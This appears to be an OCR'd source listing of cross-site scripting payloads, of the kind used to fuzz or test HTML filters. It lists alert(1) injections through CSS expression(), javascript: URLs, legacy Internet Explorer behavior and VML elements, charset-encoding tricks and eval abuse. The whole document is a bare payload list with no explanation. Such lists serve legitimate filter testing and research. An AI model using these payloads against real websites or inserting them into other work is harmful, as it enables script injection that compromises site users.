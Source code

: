 &lt;style&gt;@import "data:,*%7bx:expression(javascript:alert(1))%7D";&lt;/style&gt;

&lt;a style="pointer-events:none;position:absolute;"&gt;&lt;a style="position:absolute;" onclick="javascript:alert(1);"&gt;XXX&lt;/a&gt;&lt;/a&gt;&lt;a 

href="javascript:javascript:alert(1)"&gt;XXX&lt;/a&gt;

&lt;// style=x:expression\28javascript:alert(1)\29&gt;

&lt;style&gt;*{x:ｅｘｐｒｅｓｓｉｏｎ(javascript:alert(1))}&lt;/style&gt;

&lt;div style="list-style:url(http://foo.f)\20url(javascript:javascript:alert(1));"&gt;X

&lt;x style="background:url('x&#1;;color:red;/*')"&gt;XXX&lt;/x&gt;

&lt;script&gt;({set/**/$($){_/**/setter=$,_=javascript:alert(1)}}).$=eval&lt;/script&gt;

&lt;script&gt;({0:#0=eval/#0#/#0#(javascript:alert(1))})&lt;/script&gt;

&lt;script&gt;ReferenceError.prototype.__defineGetter__('name', function(){javascript:alert(1)}),x&lt;/script&gt;



&lt;script&gt;Object.__noSuchMethod__ = Function,[{}][0].constructor._('javascript:alert(1)')()&lt;/script&gt;

&lt;meta charset="x-imap4-modified-utf7"&gt;&&lt;script&S1&TS&1&gt;alert&A7&(1)&R&UA;&&&lt;&A9&11/script&X&&gt;

&lt;meta charset="mac-farsi"&gt;¼script¾javascript:alert(1)¼/script¾


X&lt;x style=`behavior:url(#default#time2)` onbegin=`javascript:alert(1)` &gt;

1&lt;set/xmlns=`urn:schemas-microsoft-com:time` style=`beh&#x41vior:url(#default#time2)` attributename=`innerhtml` to=`&lt;img/src=&quot;x&quot;onerror=javascript:alert(1)&gt;`&gt;

1&lt;animate/xmlns=urn:schemas-microsoft-com:time style=behavior:url(#default#time2) attributename=innerhtml values=&lt;img/src=&quot;.&quot;onerror=javascript:alert(1)&gt;&gt;

1&lt;a href=#&gt;&lt;line xmlns=urn:schemas-microsoft-com:vml style=behavior:url(#default#vml);position:absolute href=javascript:javascript:alert(1) strokecolor=white strokeweight=1000px from=0 to=1000 /&gt;&lt;/a&gt;

&lt;a style="behavior:url(#default#AnchorClick);" folder="javascript:javascript:alert(1)"&gt;XXX&lt;/a&gt;

&lt;event-source src="%(event)s" onload="javascript:alert(1)"&gt;

&lt;a href="javascript:javascript:alert(1)"&gt;&lt;event-source src="data:application/x-dom-event-stream,Event:click%0Adata:XXX%0A%0A"&gt;

&lt;div id="x"&gt;x&lt;/div&gt; &lt;xml:namespace prefix="t"&gt; &lt;import namespace="t" implementation="#default#time2"&gt; &lt;t:set attributeName="innerHTML" targetElement="x" to="&lt;img&#11;src=x:x&#11;onerror&#11;=javascript:alert(1)&gt;"&gt;

&lt;script&gt;javascript:alert(1)&lt;/script&gt;

&lt;IMG SRC="javascript:javascript:alert(1);"&gt;

&lt;IMG SRC=javascript:javascript:alert(1)&gt;
